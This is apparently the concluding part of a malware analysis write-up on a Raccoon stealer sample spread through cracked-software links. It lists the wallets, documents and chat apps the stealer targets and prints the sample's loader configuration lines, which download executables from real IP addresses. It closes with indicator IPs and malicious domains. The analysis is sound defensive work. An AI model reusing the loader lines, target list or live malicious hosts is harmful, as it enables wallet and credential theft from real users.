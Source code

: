```String
	ElectronCash
	Guarda
	LedgerLive
	Daedalus
	MyMonero
	Wasabi
Local Documents
	%USERPROFILE%\Desktop\|*.txt
	%USERPROFILE%\Desktop\|*.dox
	%USERPROFILE%\Documents\|*.txt
	%USERPROFILE%\Desktop\|*.pdf
Telegram
Discord
```
Each one of these stealer functions would upload the data to the C2 server immediately after capturing it.

#### Screenshots
The Raccoon stealer has the capability to take screenshots using the GDIPlus and gdi32 DLLs, but this sample is not configured to do so.

#### Load More Malware
The stealer uses the keyword `ldr_` in the C2 configuration string to determine whether to download even more malware. In this sample, I found the following:
```String
ldr_1:http://77.73.134.24/Clip1.exe|%APPDATA%\|exe
ldr_1:http://77.73.134.35/bebra.exe|%TEMP%\|exe
```
The configuration specifies the server to contact, the file to download, the path to save the download, and the extension to use. I collected these additional binaries, and they can be found on Malshare. 

- [Clip1.exe](https://malshare.com/sample.php?action=detail&hash=471804a84bc2fa7969bf6ea4e1047e4f3aa1a5f535dad9ff696fc1ae349f885f)
	- Uses EazFuscator, and I'm unable to get any deobfuscators to work. I do not have a lot of experience in this area.
- [bebra.exe](https://malshare.com/sample.php?action=detail&hash=e487cc9c5d05a910d82c833029b1dc9ac00e5729ad05d1dcfafaa4fc64496b6d)

### Final Thoughts
I'll summarize the investigative journey - first a malicious .NET binary was downloaded from a link in a YouTube video for cracked software. This binary has a weakly obfuscated .NET DLL embedded in its resources, which is extracted and a specified method is executed.  

The first DLL then decrypts and decompresses another .NET DLL from its resources. and then uses methods from the newly created DLL to extract yet another DLL hidden inside a resource bitmap file.  

The third DLL extracts the Raccoon stealer from its embedded resources, and injects it into a newly created MSBuild.exe process. 

A visual guide: `.NET binary -> .NET DLL -> .NET DLL -> .NET DLL -> Raccoon Stealer`

#### IOCs
```string
83.217.11.34
83.217.11.35
77.73.134.24
77.73.134.35

softwarebeginner.com
emanagesoftware.com/download
bestdogdaycaresoftware.com/1
bittab.pw/SoftwareSetupFile.rar
```